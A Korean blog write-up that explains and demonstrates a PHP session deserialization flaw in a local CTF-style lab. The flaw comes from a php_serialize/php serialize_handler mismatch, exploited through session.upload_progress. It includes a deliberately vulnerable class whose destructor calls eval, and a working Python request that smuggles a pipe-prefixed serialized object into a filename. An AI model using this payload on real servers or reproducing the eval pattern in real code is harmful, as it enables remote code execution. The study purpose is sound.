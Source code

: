 ```yaml
---
layout: post
title:  "PHP session.serialize_handler가 php_serialize로 되어 있는 경우 역직렬화 취약점 발생"
tags: [WEB-Vuln,WEB-Study]
excerpt: "PHP session.serialize_handler이 php_serialize에서 php으로 변경될 경우 세션이 역직렬화 되는 과정에서 발생하는 역직렬화 취약점"
---
```

---

# PHP session.serialize_handler이란?

PHP 설정 세팅 중 [session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)는 세션의 데이터를 모두 직렬화/역직렬화할 때 사용되는 핸들러입니다.

간단하게 PHP세션의 직렬화/역직렬화 방식 핸들러를 session.serialize_handler옵션을 이용하여 지정할 수 있게 됩니다.

php.net를 살펴보면 나와있는대로 default는 php으로 지정되어 있고 php_binary, php_serialize, wddx가 있다고 나와 있습니다.

이번 블로그 글에서 다룰 부분은 session.serialize_handler이 기본으로 php_serialize으로 설정 되어 있는 상태에서 로컬에서 session.serialize_handler을 php 으로 바꾸는 과정에서 발생할 수 있는 역직렬화 취약점을 적어볼려고 합니다.

---

## PHP session.serialize_handler php_serialize 작동 방식

먼저 session.serialize_handler은 위에서 언급했다시피 기본 값으로는 php으로 되어있습니다.

만약 php에서 ``session_start();`` 함수를 이용하여 세션을 시작하면 ``session_save_path()`` 경로에 ``sess_(PHPSESSID)`` 형식으로 파일에 세션 정보가 직렬화되어 저장됩니다

하지만 만약 session.serialize_handler이 php일 경우 

```php
<?php 

session_start();

$_SESSION['test'] = 'test';

echo session_save_path()."\n";

?>
```

위와 같은 코드를 실행시키면 세션이 시작되면서 session_save_path() 함수 결과의 위치에 세션 정보가 있는걸 볼 수 있습니다.

```bash
$ cat /var/lib/php/sessions/sess_02g9od7s6sn9iv9ob8q63g8u0i
test|s:4:"test";
```

하지만 해당 코드를 session.serialize_handler를 php_serialize로 바꾼 다음 세션 파일을 읽어보면 데이터 저장 형식이 조금 달라진것을 볼 수 있습니다.

```php
a:1:{s:4:"test";s:4:"test";}
```

이제 이러한 php_serialize 방식을 이용하여 php 으로 바꼇을 때 역직렬화 취약점이 발생할 수 있는걸 다뤄보겠습니다.

---

# PHP session.serialize_handler unserialize exploit

먼저 session.serialize_handler을 이용하여 역직렬화 취약점을 발생시킬 수 있는 사이트를 구축해볼려면

[php session.serialize_handler 취약점 발생할 수 있는 환경을 만들어야되는데](https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize) 먼저 php.ini 파일 위치를 찾아 session.serialize_handler값을 php_serialize으로 바꾼 다음

+ [https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize](https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize)

위의 Github 코드와 똑같이 구축한 다음 소스코드를 분석해보면 config.php 파일에서 session.serialize_handler 값을 php으로 변경해주면 세션에 php_serialize으로 직렬화되어 저장되어 있던 데이터가 php으로 변경되면서 역직렬화되는 과정을 거치게 됩니다.

그리고 RCE 취약점을 발생시키기 위해서는 exploit 클래스의 command 값을 조작해야되는데

```php
ini_set("session.serialize_handler", "php");

class exploit{
    public $command;
    function __destruct() {
        eval($this->command);
    }
}

session_start();
```

위의 config.php 파일의 class exploit 부분을 똑같이 로컬에서 구축하여 serialize 함수를 이용해 데이터를 직렬화 해보면

![local test class exploit serialize](\post-images\PHP\SESSION\session.serialize_handler\local_test_exploit_class_serialize.png)

이렇게 ``O:7:"exploit":1:{s:7:"command";s:30:"include('/var/www/html/flag');";}`` exploit 클래스를 직렬화한 데이터가 출력되는것을 볼 수 있습니다.

---

## PHP session.upload_progress를 이용한 SESSION Upload

하지만 exploit 데이터를 가지고 있다고 해도 서버에다가 해당 정보를 전송 할 방법을 없기 때문에 

session.upload_progress.clenup 와 session.upload_progress.enable가 아래와 같이 구성되어 있는 경우

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

PHP에서 세션을 ``session_start()`` 함수를 사용하는 대신 POST로 ``PHP_SESSION_UPLOAD_PROGRESS`` 이름으로 파일 업로드하여 세션을 생성시킬 수 있습니다.

이제 ``session.upload_progress``을 이용하여 POST으로 요청하면 되는데 그냥 단순히 requests 모듈로 open 함수를 써서 files 매개변수에 값을 넣으면 url 인코딩되어 제대로된 값이 들어가지 않기 때문에 

직접 POST body 데이터를 만들어준 다음에 헤더에 me2nuk이라는 쿠키 이름으로 요청보내주면 sess_me2nuk 파일에 php_serialize 방식으로 직렬화된 데이터가 들어간 파일 이름이 직렬화 되어 

페이지에서는 command 이라는 변수가 조작되어 ``include('/var/www/html/flag');`` 코드가 실행되는걸 볼 수 있습니다.
 

```py
import requests

contents = """------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

me2nuk
------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="file"; filename="|O:7:\\"exploit\\":1:{s:7:\\"command\\";s:30:\\"include('/var/www/html/flag');\\";}"
Content-Type: text/plain

------Me2nukPHPSessionUploadProgress--"""

url = "http://127.0.0.1/"
headers = {
    "Content-Type": "multipart/form-data; boundary=----Me2nukPHPSessionUploadProgress",
    "Cookie": "PHPSESSID=me2nuk"
}
r = requests.post(url, headers=headers, data=contents)

print(r.request.body)

result = requests.get(url, headers=headers).text

print(result)
```

하지만 보통은 filename에 들어가게 되면 모든 세션의 정보가 하나로 직렬화되어 sess_me2nuk 파일에 저장되어있을텐데

저렇게 따로 데이터를 분리시켜 exploit 이라는 클래스를 조작할 수 있는 이유는 

\| 특수문자를 이용하여 세션 정보를 분리시켜줄 수 있었기 때문입니다.

만약 \| 파이프를 넣지 않으면 세션 정보로 구별되어 exploit 클래스에 전혀 영향을 끼치지 않으므로 filename 첫번째에 \| 파이프를 넣어준 다음 직렬화된 exploit 클래스 정보를 넣어주면 됩니다.

![request python](\post-images\PHP\SESSION\session.serialize_handler\request.png)

그러면 이렇게 요청한 결과 ``FLAG{phP_sEssi0n_s2rla1ize_haNd12R_pHp_s2ria1ize}``가 나오는걸 볼 수 있습니다.

---

## 후기

이 블로그에서 다룬 내용은 간단하게 ``session.upload_progress.clenup``, ``session.upload_progress.enabled``, ``session.serialize_handler`` 설정을 이용하여 역직렬화 취약점을 발생할 수 있는 주제에 대해 다뤘는데 

처음에는 잘 몰라서 삽질했지만 이 기회에 재밌는 취약점을 공부하여 좋았습니다.